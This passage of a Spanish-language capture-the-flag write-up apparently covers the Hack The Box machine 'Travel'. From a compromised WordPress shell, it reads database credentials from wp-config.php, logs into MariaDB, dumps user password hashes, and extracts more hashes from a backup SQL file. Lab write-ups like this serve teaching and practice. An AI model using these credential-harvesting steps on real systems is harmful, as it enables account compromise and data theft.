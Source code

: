 ```null
www-data@blog:/var/www/html/wp-content/themes/twentytwenty/logs$ hostname -I
172.30.0.10 
```

Obtengo las credenciales de acceso a la base de datos del ```wp-config.php```

```null
/** MySQL database username */
define( 'DB_USER', 'wp' );

/** MySQL database password */
define( 'DB_PASSWORD', 'fiFtDDV9LYe8Ti' );
```

Me conecto al ```MySQL`` 

```null
www-data@blog:/var/www/html$ mysql -uwp -pfiFtDDV9LYe8Ti
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 59
Server version: 10.3.22-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

Obtengo un hash para el usuario ```admin``` del WordPress

```null
ariaDB [wp]> select user_email,user_pass from wp_users;
+------------------+------------------------------------+
| user_email       | user_pass                          |
+------------------+------------------------------------+
| admin@travel.htb | $P$BIRXVj/ZG0YRiBH8gnRy0chBx67WuK/ |
+------------------+------------------------------------+
1 row in set (0.001 sec)
```

No se puede crackear por fuerza bruta. En el directorio ```/opt``` hay otro ```WordPress```

```null
www-data@blog:/opt$ ls
wordpress
```

Contiene un backup

```null
www-data@blog:/opt/wordpress$ ls
backup-13-04-2020.sql
```

Dentro hay otro hash

```null
www-data@blog:/opt/wordpress$ cat backup-13-04-2020.sql | grep -oP '\$P.*'
$P$BIRXVj/ZG0YRiBH8gnRy0chBx67WuK/','admin','admin@travel.htb','http://localhost','2020-04-13 13:19:01','',0,'admin'),(2,'lynik-admin','$P$B/wzJzd3pj/n7oTe2GGpi5HcIl4ppc.','lynik-admin','lynik@travel.htb','','2020-04-13 13:36:18','',0,'Lynik Schmidt');
```
